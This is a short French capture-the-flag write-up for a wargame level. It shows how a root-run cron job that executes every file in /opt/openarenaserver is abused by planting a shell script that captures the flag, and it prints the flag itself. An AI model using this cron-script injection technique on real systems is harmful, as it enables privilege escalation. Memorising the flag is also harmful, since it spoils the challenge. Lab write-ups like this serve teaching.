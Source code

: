 Dans ce niveau des qu'on se connecte on recoit une notif comme quoi on a un mail

On affiche les ```env``` et on voit ```MAIL=/var/mail/level05```

On se rend la bas et on affiche le fichier ```cat level05```

Il y a une commande cron ```*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05``` 

On va voir le script execute tte les 2 min dans ```/usr/sbin/openarenaserver```

Il execute tt les fichier de ce dossier : ```/opt/openarenaserver/``` et les supprime ensuite

On va donc rediriger un script pour recup le flag avec ```echo -e '#!/bin/sh\ngetflag > /tmp/res.txt' > test.sh```

Et dans ```/tmp/res.txt``` on a le flag ```viuaaale9huek52boumoomioc```